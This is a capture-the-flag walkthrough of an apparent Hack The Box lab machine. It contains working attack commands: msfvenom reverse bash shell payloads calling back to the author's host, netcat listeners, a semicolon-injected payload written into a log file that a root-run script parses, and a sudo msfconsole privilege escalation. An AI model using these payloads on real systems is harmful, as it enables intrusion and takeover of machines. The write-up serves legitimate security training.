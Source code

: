 # Scritp Kiddie walkthroughs

Machine ip: 10.10.10.226

Running ```nmap -sV -sC -sS -oN nmapo.txt -v -p 0-10000 10.10.10.226``` gave this output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods:
|_  Supported Methods: POST GET OPTIONS HEAD
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## User

We can find a webpage at port 5000 in which we have the possibility to run 3 commands on the target machine. The first one is 'nmap' and even if it works cannot be used to find vulnerabilities on the host. The second command is 'msfvenom' and we can use this command to create a file that in theory should be used by the host to get a reverse shell. The third one is 'searchsploit' and it's useless too.

We can achieve a remote code execution abusing 'msfvenom' when we try to run the command for android and using a correct template. This is possible because during the creation of the .apk file a part of it is executed. More information could be found here: https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md

The payload that I've used to create the reverse shell is:
```
msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.252 LPORT=4444 -f raw -o shellClownFace.sh; chmod 777 shellClownFace.sh; bash shellClownFace.sh
```
and on my machine
```
nc -lvnp 4444
```

We are now logged in as kid who has user privileges and we can grab the hash from the user.txt file on his desktop

## Root

In order to get a shell with a better stability we can put our ssh public key into kid's ```.ssh/authorized_keys``` and log in with ssh.

Before we can get root we need to gain access to pwn, the other user on the host machine that have more privileges then us.

After a little bit of enumeration we find a bash script (non mi ricordo il nome) that reads information from a file on our home ```/home/kid/logs/hackers```. We can see from the script how the information are parsed and executed so we can try to abuse this script to get an higher privileges.

If we try to write something to the file we notice that the script is immediately executed so we can insert into our payload and just listen for a connection on our machine.

Payload: ```[2021-02-10 15:05:20.356712] 10.10.10.252;  bash -c "msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.252 LPORT=4444 -f raw -o shellClownFace.sh; chmod 777 shellClownFace.sh; bash shellClownFace.sh " ```

Listener: ```nc -lvnp 4444```

We have now access to the machine with pwn.

Now it is enough to run ```sudo -l``` to discover that pwn can run msfconsole with sudo privileges without the password.
```
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
so after running ```sudo /opt/metasploit-framework-6.0.9/msfconsole``` we can just go to root folder and grab the root.txt hash 
